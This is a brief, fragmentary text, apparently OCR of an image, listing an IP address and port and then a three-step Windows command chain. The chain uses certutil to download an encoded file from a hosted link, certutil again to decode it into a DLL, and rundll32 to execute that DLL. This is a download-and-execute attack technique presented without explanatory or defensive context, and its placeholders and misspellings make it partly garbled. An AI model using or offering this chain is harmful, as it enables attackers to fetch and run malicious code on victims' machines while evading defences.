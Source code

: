 10.0.2.15:8083

 
certutil -urlcache -split -f linkhosted .enc certficatefile

certutil -decode .enc dll file
rundll32 dllname with path, EntryPoint
